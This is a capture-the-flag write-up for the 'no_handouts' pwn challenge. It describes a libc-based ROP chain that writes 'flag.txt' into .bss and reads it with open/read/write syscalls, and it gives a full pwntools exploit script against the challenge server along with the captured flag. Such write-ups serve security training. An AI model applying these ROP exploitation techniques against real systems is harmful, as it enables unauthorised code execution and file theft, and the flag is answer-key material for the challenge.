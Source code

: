 https://ctftime.org/event/2449

# no_handouts (pwn)

I just found a way to kill ROP. I think. Maybe?

nc challs.pwnoh.io 13371

## Analysis

We are given `libc.so.6` and a libc leak. With these we can bypass ASLR and use ROP gadgets from libc.

From the Dockerfile it is supposed to be clear that there exists no `/bin/sh` on the remote. It was not clear to me that this was the case for some time.

Therefore we should not attempt to `execve` `/bin/sh` but rather to read the flag using syscalls.

## Solution

1) Locate the end of the `.bss` section of readable and writeable memory in libc
2) Write `flag.txt` - note how this is 8 bytes exactly - to an empty part of `.bss` - note how this should be followed by an already present zero byte after the write has completed
3) open/read/write the contents of `flag.txt` using syscalls

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./chall_patched", checksec=False)
context.binary = elf

libc = ELF("./libc.so.6", checksec=False)

#p = elf.process()
#p = elf.debug(gdbscript="b vuln")
p = remote("challs.pwnoh.io", 13371)

p.readuntil(b"it's at ")
leak = int(p.readline().decode(), 16)
libc.address = leak - libc.sym["system"]
log.success(f"libc: {hex(libc.address)}")

p.readline()

# 0x00000000000bfc76 : mov qword ptr [rdi], rcx ; ret
GADGET_MOV_QWORD_PTR_RDI_RCX = p64(0x00000000000bfc76 + libc.address)

# 0x000000000003d1ee : pop rcx ; ret
GADGET_POP_RCX = p64(0x000000000003d1ee + libc.address)

BSS = p64(0x00228e30 + libc.address + 0x100)

rop = ROP(libc)
rop.raw(b"A" * 0x28)

rop.rdi = BSS
rop.raw(GADGET_POP_RCX)
rop.raw(b"flag.txt")
rop.raw(GADGET_MOV_QWORD_PTR_RDI_RCX)
rop.rsi = 0
rop.rdx = 0
rop.rax = constants.SYS_open
rop.raw(rop.find_gadget(['syscall', 'ret'])[0])

rop.rdi = 3
rop.rsi = BSS
rop.rdx = 43
rop.rax = constants.SYS_read
rop.raw(rop.find_gadget(['syscall', 'ret'])[0])

rop.rdi = 1
rop.rsi = BSS
rop.rdx = 43
rop.rax = constants.SYS_write
rop.raw(rop.find_gadget(['syscall', 'ret'])[0])

p.sendline(rop.chain())

p.interactive() # bctf{sh3lls_ar3_bl0at_ju5t_use_sh3llcode!}
```

### Note

The size used here is `43` this is arrived at through trial and error and should not be obvious until you have read the flag file from the disk. I started with `256` bytes or something much larger.

## Flag
`bctf{sh3lls_ar3_bl0at_ju5t_use_sh3llcode!}`

smiley 2024/09/28
